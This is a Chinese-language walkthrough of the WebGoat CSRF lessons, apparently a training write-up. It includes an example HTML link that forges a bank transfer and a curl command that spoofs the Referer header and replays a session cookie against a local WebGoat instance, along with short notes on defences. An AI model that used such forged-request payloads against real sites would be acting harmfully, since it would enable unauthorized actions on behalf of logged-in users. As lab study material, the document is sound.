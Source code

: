 # Cross-Site Request Forgeries

跨站请求伪造。利用网站对用户身份的信任，使得用户发送请求给服务器。需要依赖用户已经登录网站的事实。比如下面的例子:

``` html
<a href="http://bank.com/transfer?account_number_from=123456789&account_number_to=987654321&amount=100000">
View my Pictures!
</a>
```

## Task 1
仅仅是一个例子，展示了最基本的 Get 的 CSRF 的过程。

## Task 2
构造一个从其他 Referer 发送的伪造请求即可。利用 Curl 即可:

``` zsh
> curl -H "Referer: http://baidu.com/" -H "Cookie: JSESSIONID=39AF1A14DA2C67D6D759ED87A2687D7C" -d "reviewText=123&stars=123&validateReq=2aa14227b9a13d0bede0388a7fba9aa9" http://127.0.0.1:8080/WebGoat/csrf/review HTTP/1.1

{
  "lessonCompleted" : true,
  "feedback" : "It appears you have submitted correctly from another site. Go reload and see if your post is there.",
  "output" : null
}curl: (6) Could not resolve host: HTTP
```

## 防止 CSRF

很多框架有自动防止 CSRF 的措施，例如设置 CSRF-Token。注意要使用分开的 Cookie，而不要和 SessionId 等混用。

另外，自定义 Header 并不可靠。即便是规定 Content-type 也不可靠。

## Task 3

参考 [http://pentestmonkey.net/blog/csrf-xml-post-request](http://pentestmonkey.net/blog/csrf-xml-post-request)

由于请求中传递参数，需要将类型改成 plain 类型。而后进行船体。参见 `index.html` 即可拿到 flag。

## Task 4

非常奇怪，注册一个新账户，然后点击按钮就过了。大概就是体验一下 CSRF 攻击吧。
